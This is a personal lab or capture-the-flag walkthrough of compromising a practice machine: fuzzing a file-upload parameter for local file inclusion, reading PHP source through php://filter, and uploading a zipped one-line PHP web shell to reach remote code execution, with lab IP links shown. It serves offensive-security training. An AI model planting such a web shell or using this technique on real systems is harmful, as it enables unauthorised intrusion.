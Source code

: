 ![](doublecheckingthesearch.png)

![](triplecheckingthesearch.png)

Background may not be 
![](doesnotlooklikeit.png)

Fuzz for PHP source files in the uploads directory just in case


Last time would be to FUZZ LFI on the filename parameter of the upload request
![](theburpintruder.png)

The problem is we  need to then get the link out of each response to then download and check unzip the file and views its contents, which all means script fool script. Given that I think I may have a way of doing this I will not click to Write up button for at least another hour additionally just to push myself with Python3 and not bash. If I do not do it in a hour then it is just admit defeat. I returned again and very glad to admit failure of this machine as I would have went down another rabbit hole. I opened the write up for this machine. My only mistake was I did not know php filter automatically append `.php` to the `resource=$FILE`. So I was trying to get `index.php.php`...

## Exploit

The more php you know...
![](themorephpyouknow.png)

`curl`ing and `base64` decoding the source code:
![](curlingouthismachine.png)

At this point it seems trivial. As I know and knew of different `php://filters` and that we could unzip and execute.

Uploading exploit.php:
```php
<?php echo system($_GET['cmd']); ?>
```

The link address
```php
http://192.168.181.229/uploads/upload_1698831334.zip
```

And RCE
![](andunzipyourwebshell.png)

So then we can just upload a shell, I have been burnt hard by not using `sh` so just to test I wanted to use `sh`
![](shshell.png)
The link for reference:
```
http://192.168.181.229/uploads/upload_1698831476.zip
```
